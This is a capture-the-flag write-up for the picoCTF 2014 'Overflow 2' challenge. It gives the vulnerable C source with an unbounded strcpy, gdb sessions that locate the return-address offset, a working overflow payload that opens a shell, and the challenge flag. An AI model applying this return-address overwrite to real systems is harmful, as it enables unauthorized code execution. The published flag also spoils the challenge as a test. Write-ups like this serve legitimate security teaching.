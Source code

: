 # Pico-CTF 2014: Overflow 2

**Category:** Binary Exploitation
**Points:** 70
**Total Solves:** Not Available
## Problem Description:
[//]: # (Description of your problem. For eg use below description as a template)
[//]: # (> This program is vulnerable to a format string attack! See if you can modify a variable by supplying a format string! The binary can be found at /home/format/ on the shell server. The source can be found [here](format.c\).)
> This problem has a buffer overflow vulnerability! Can you get a shell? You can solve this problem interactively here, and the source can be found [here](overflow2.c).

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

/* This never gets called! */
void give_shell(){
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    system("/bin/sh -i");
}

void vuln(char *input){
    char buf[16];
    strcpy(buf, input);
}

int main(int argc, char **argv){
    if (argc > 1)
        vuln(argv[1]);
    return 0;
}
```

## Write-up
[//]: # (> Your write up goes here.)
> There is a buffer overflow vulnerability in this c program, the argument passed as string is directly getting copied to variable buf withou checking any bounds in function vuln().

```c
void vuln(char *input){
    char buf[16];
    strcpy(buf, input);
}
```
> If we give input more than 16 character strcpy will start overriding the stack.
To get the flag we need to call function give_shell(), in order to do so we can override stack of vuln function so that when its execution finishes control goes to give_shell() function. 
So, first we need to figure out the address of function give_shell(). Fot that we can use gdb.

```bash
pico74093@shell:/home/overflow2$ gdb overflow2
GNU gdb (Ubuntu 7.7.1-0ubuntu5~14.04.2) 7.7.1
Copyright (C) 2014 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from overflow2...(no debugging symbols found)...done.
(gdb) p &give_shell
$1 = (<text variable, no debug info> *) 0x80484ad <give_shell>
(gdb)
```

> Now we have address of function to write on stack of function vuln() we need figure out how much char we need to write on stack using strcpy so that address of give_shell() `x80484ad` get written at exact place, which just after 4 bytes after the address stored at`EBP`. Why because EBP stores the BP (Base pointer) of previous caller function, in this can main but we want it to be give_shell(). To figure out the lngth of char string which we are going to pass we can pass randowm characters like "aaaaa" and see how much far it is from address stored at register EBP.

```
(gdb) p &vuln
$2 = (<text variable, no debug info> *) 0x80484e2 <vuln>
(gdb) disassemble vuln
Dump of assembler code for function vuln:
   0x080484e2 <+0>:     push   %ebp
   0x080484e3 <+1>:     mov    %esp,%ebp
   0x080484e5 <+3>:     sub    $0x28,%esp
   0x080484e8 <+6>:     mov    0x8(%ebp),%eax
   0x080484eb <+9>:     mov    %eax,0x4(%esp)
   0x080484ef <+13>:    lea    -0x18(%ebp),%eax
   0x080484f2 <+16>:    mov    %eax,(%esp)
   0x080484f5 <+19>:    call   0x8048360 <strcpy@plt>
   0x080484fa <+24>:    leave
   0x080484fb <+25>:    ret
End of assembler dump.
(gdb) b *0x080484fa
Breakpoint 1 at 0x80484fa
(gdb) r "aaaaaa"
Starting program: /home/overflow2/overflow2 "aaaaaa"

Breakpoint 1, 0x080484fa in vuln ()
(gdb) x /x $ebp-24
0xffffd6a0:     0x61616161
(gdb) x /x $ebp-23
0xffffd6a1:     0x61616161
(gdb) x /x $ebp-25
0xffffd69f:     0x61616108
(gdb) x /x $ebp-26
0xffffd69e:     0x61610804
(gdb)
```

> From above we can see that we need to pass more than 24 charcters to overwrite the content stored at address stored at register EBP. We need to also overwrite the returning adddress, so our string to passed as argument can be: `aaaaaaaaaaaaaaaaaaaaaaaaaaaa\xad\x84\x04\x08`. Here address is in reverese order because machine is little endian.
We can execute the binary as:

```bash
pico74093@shell:/home/overflow2$ ./overflow2 $(python -c 'print "a"*28 + "\xad\x84\x04\x08"')
$ whoami
pico74093
$ cat flag.txt
controlling_%eip_feels_great
```

> Flag is **controlling_%eip_feels_great**

## Other write-ups and resources

* None
